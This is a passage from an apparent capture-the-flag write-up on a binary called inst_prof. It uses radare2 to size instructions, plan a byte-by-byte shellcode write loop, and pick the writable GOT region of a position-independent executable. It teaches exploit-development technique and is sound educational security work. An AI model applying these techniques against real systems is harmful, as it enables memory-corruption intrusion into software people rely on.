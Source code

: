 Lets check how many bytes that instruction requires. We are going to try it with the first byte of the above shellcode:
```bash
$ rasm2 -a x86 -c 64 'mov byte [r15], 0xb0'
41c607b0
```
> `-a x86` tells `rasm2` to compile the instruction for the architecture `x86`.  
`-c 64` indicates we want it for a 64 bits cpu.

Four bytes. That means that we cannot apply a `ret` instruction.
{{< highlight r2 "hl_lines=3" >}}
[0x7f556238a000 230 /root/inst_prof]> pd $r @ map.unk2._rw_
            0x7f556238a000      b900100000             ecx = 0x1000
        ┌─> 0x7f556238a005      41c607b0               byte [r15] = 0xb0
        |   0x7f556238a009      83e901                 ecx -= 1
        └─< 0x7f556238a00c      75f7                   if (var) goto 0x7f556238a005
            0x7f556238a00e      c3                     
{{< /highlight >}}

So the loop will write `4096` times `0xb0` on the same address. Fair enough, it is a waste of cycles but it will 
work. This way we can copy the 23 bytes of the shellcode.

We still need to know a couple things more:

**1.** an initial **address** where to start writing our shellcode to. Ideally, we would want to use a memory area 
with `write` and `execution` permissions, but there is none. So we will use a section that has at least `write` 
permissions like the [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) section and we will deal with the 
execution permission later.

{{< highlight r2 "hl_lines=3" >}}
[0x5569ad584b18]> dm~rwx
[0x5569ad584b18]> dm~rw-
usr     4K 0x00005569ad786000 - 0x00005569ad787000 s -rw- /root/inst_prof /root/inst_prof ; obj._GLOBAL_OFFSET_TABLE_
usr     8K 0x00007f0efa979000 - 0x00007f0efa97b000 s -rw- /lib/x86_64-linux-gnu/libc-2.24.so /lib/x86_64-linux-gnu/libc-2.24.so
usr    16K 0x00007f0efa97b000 - 0x00007f0efa97f000 s -rw- unk0 unk0
usr     8K 0x00007f0efab80000 - 0x00007f0efab82000 s -rw- unk1 unk1
usr    12K 0x00007f0efab9f000 - 0x00007f0efaba2000 s -rw- unk3 unk3
usr     4K 0x00007f0efaba3000 - 0x00007f0efaba4000 s -rw- /lib/x86_64-linux-gnu/ld-2.24.so /lib/x86_64-linux-gnu/ld-2.24.so
usr     4K 0x00007f0efaba4000 - 0x00007f0efaba5000 s -rw- unk4 unk4 ; map.unk0._rw_
usr   132K 0x00007ffd4fb3c000 - 0x00007ffd4fb5d000 s -rw- [stack] [stack] ; map._stack_._rw_
{{< /highlight >}}

> `dm` list the memory maps of the current process.  
`~rwx` or `~rw-` is used to filter between all the mappings of the process.

In this case `0x00005569ad786000` is the address we are looking for **BUT** remember `PIC` flag is enabled so our executable will be loaded at a random address each time it will be launched.
